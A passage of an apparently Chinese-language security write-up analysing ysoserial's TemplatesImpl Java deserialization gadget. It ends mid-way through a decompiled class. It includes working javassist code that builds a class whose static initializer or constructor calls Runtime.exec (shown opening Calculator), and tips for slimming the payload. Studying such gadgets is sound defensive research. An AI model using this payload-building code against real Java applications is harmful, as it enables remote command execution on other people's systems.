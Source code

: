 总结来说，_class中的类有这几个特点，父类是AbstractTranslet，攻击代码写入到了静态代码块中,这样在类的newInstance过程中就直接执行了静态代码块中的代码，导致了命令执行

java中类实例化过程会首先执行静态代码块，然后执行构造代码块，然后默认执行类的无参构造方法，所以把恶意代码插入到无参构造函数中也是可以的，如下

```java
String string = "java.lang.Runtime.getRuntime().exec(\"open /Applications/Calculator.app\");";
CtConstructor ctConstructor = new CtConstructor(new CtClass[] {}, clazz);
ctConstructor.setBody(string);
clazz.addConstructor(ctConstructor);
```

#### 一些小问题

1. yso向_bytecodes插入恶意代码的时候，不仅插入了classBytes，而且一起插入了`ClassFiles.classAsBytes(Foo.class)`在实际测试中，不包含`ClassFiles.classAsBytes(Foo.class)`这里Foo是一个空类，一样也是可以触发漏洞的，可以debug一下跟下漏洞执行过程就是newTransform那里
2. yso在结尾时设置了_tfactory字段`Reflections.setFieldValue(templates, "_tfactory", transFactory.newInstance());`实际测试中发现不设置这个字段也是没有影响的
3. StubTransletPayload类，其实StubTransletPayload只需要表面继承自AbstractTranslet类即可，不添加两个transform方法，也不实现Serializable接口，同样也是可以触发漏洞的，可以通过javassist直接创建类，然后设置父类，加入恶意代码的方式完成

    可以对生成class精简一下
    
    ```java
    private static Object CreateTemplate() throws IllegalAccessException, InstantiationException, NotFoundException, CannotCompileException, IOException, NoSuchFieldException {
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        ClassPool classPool = ClassPool.getDefault();
        classPool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass clazz = classPool.makeClass(String.valueOf(System.nanoTime()));
        String string = "java.lang.Runtime.getRuntime().exec(\"open /Applications/Calculator.app\");";
        clazz.makeClassInitializer().insertAfter(string);
    
        CtClass superC = classPool.get(AbstractTranslet.class.getName());
        clazz.setSuperclass(superC);
        final byte[] classBytes = clazz.toBytecode();
        Field bcField = TemplatesImpl.class.getDeclaredField("_bytecodes");
        bcField.setAccessible(true);
        bcField.set(templates, new byte[][] {classBytes});
        Field nameField = TemplatesImpl.class.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templates, "aaaa");
        clazz.writeFile();
        return templates;
   }
    ```

    yso生成的class如下,对应的payload有3,154 字节
    

    ```java
    //
    // Source code recreated from a .class file by IntelliJ IDEA
    // (powered by Fernflower decompiler)
    //
    
    import com.sun.org.apache.xalan.internal.xsltc.DOM;
    import com.sun.org.apache.xalan.internal.xsltc.TransletException;
    import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
    import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
    import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
    import java.io.Serializable;
    